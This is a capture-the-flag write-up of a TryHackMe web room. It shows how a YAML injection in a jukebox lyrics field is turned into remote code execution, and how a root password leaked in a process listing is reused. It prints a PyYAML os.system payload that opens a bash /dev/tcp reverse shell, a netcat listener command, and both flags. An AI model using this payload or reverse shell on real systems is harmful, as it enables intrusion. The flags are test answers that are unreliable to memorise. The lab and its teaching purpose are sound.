








# Beach Bar

Date: July 31, 2026

## Information

- Challenge: [Packed Light](https://tryhackme.com/room/hh-packedlight-02e5330c)
- Category: Web
- Difficulty: Easy
- Description:

```text
Welcome back to the Byte Lotus — this time the sand is warm, the deck lights are coming up, and the beach bar's jukebox takes requests from anyone with a phone. You spend the evening as a guest at the rail who simply notices things: a DJ who never logs out, a song queue that accepts a little more than song titles, a service down the boardwalk quietly announcing "something".

The beachside guest-experience build shipped on a deadline, and the night-shift developer wired the jukebox straight into the floor with the trimmings still attached.
```

## Solution

The website initially showed a login page. I first tried the default credentials `admin:admin`, but they did not work.



I checked the page source and found the following comment.



I logged in with the credentials `dj:dj`.

The website provided an input field for song lyrics and displayed the result. I first tested it with a harmless input.



Then I tried `<i>ahihi</i>`.

Output

```text
<i>ahihi</i>
```

Next, I tried `%3Ci%3Eahihi%3C%2Fi%3E` (URL-encoded `<i>ahihi</i>`).

Output

```text
Could not load playlist: while scanning a directive
  in "<unicode string>", line 1, column 1:
    %3Ci%3Eahihi%3C%2Fi%3E
    ^
expected alphabetic or numeric character, but found '%'
  in "<unicode string>", line 1, column 5:
    %3Ci%3Eahihi%3C%2Fi%3E
        ^
```

This error message was interesting. It suggested that my input was being parsed by a YAML parser because YAML directives start with `%`.

I then tried the following input.

```text
name: ahihi
```

Output

```text
{'name': 'ahihi'}
```

This confirmed that the application was likely vulnerable to **YAML Injection**.

I decided to get RCE by sending a reverse shell payload.

First, I started a Netcat listener on my machine.

```bash
nc -lvnp 4096
```

Then I submitted the following payload.

```text
!!python/object/apply:os.system ["bash -c 'bash -i >& /dev/tcp/<IP_MACHINE>/<PORT> 0>&1'"]
```

Where:

- `<IP_MACHINE>` is my machine's IP address.
- `<PORT>` is any port you want. I used `4096`.



After the application processed my input, I went back to my Netcat terminal. I successfully got RCE as the `bartender` user.



Command

```bash
ls /home
```

Output

```text
bartender
ubuntu
```

Command

```bash
ls /home/bartender
```

Output

```text
user.txt
```

Command

```bash
cat /home/bartender/user.txt
```

Output

```text
THM{y4ml_pl4yl1st_pwns_th3_b34ch}
```

Great, I got the user flag.

To read the root flag, I needed to escalate my privileges.

After trying several methods, I found something very valuable while checking the running processes.

```bash
ps aux
```



I noticed the following command-line argument.

```text
--stream-pass SunsetSpritz2024!
```

I tried switching to the root user with the password `SunsetSpritz2024!`.



It worked. I successfully escalated my privileges to root. The final step was to read the flag from `/root`.



## Flag

User flag

```text
THM{y4ml_pl4yl1st_pwns_th3_b34ch}
```

Root flag

```text
THM{cr3d3nt14l_r3us3_4t_th3_b34ch_b4r}
```